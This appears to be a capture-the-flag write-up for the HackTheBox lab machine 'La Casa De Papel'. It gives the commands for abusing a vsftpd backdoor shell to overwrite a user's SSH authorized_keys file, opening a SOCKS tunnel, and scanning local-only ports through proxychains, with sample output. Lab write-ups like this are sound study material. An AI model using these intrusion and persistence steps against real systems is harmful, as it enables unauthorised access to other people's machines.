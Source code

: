 
#La Casa De Papel

Alternate way to get into the box, we don't need to do any certificate to log in as in the intended way.

Generate a new rsa publci/private key with ssh-keygen, public key id_rsa.pub lets convert to base64, and call it PAYLOADBASE64


Log into the nc port 6200 after exploiting vsftd where we have a limited php enviroment, we have to upload the payload to /home/dali/.ssh/authorized_keys (we can overwrite it)
```
$>nc 10.10.10.131 6200
unlink("/home/dali/.ssh/authorized_keys");
fwrite(fopen("/home/dali/.ssh/authorized_keys","w+"),base64_decode("PAYLOADENBASE64"));
```

Now we can log it using ssh to test the id_rsa we generated before, but we are not doing any command stuff, we just use it to enable a dynamic tunnel with the machine.

```
$>ssh -i id_rsa -D 1080 dali@10.10.10.131
```

In other terminal, using proxychains we can scan the ports that are open only for local connections

```
$>proxychains nmap -sT -n -Pn 127.0.0.1 -p-

PORT     STATE SERVICE
8000/tcp open  http-alt
```

Port 8000 is open, and if we scan it we can see that is a web server, is the same webserver we can browse if we use the intented way of entering the machine, but locally we don't need any certificate.

```
$>proxychains curl 127.0.0.1:8000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:8000-<><>-OK
<li><a href="?path=SEASON-1">SEASON-1</a></li><li><a href="?path=SEASON-2">SEASON-2</a></li><li><strong>Select a season</strong></li>
```

You have here also a python script to upload a public key and the private id_rsa file to enable the dynamic tunnel


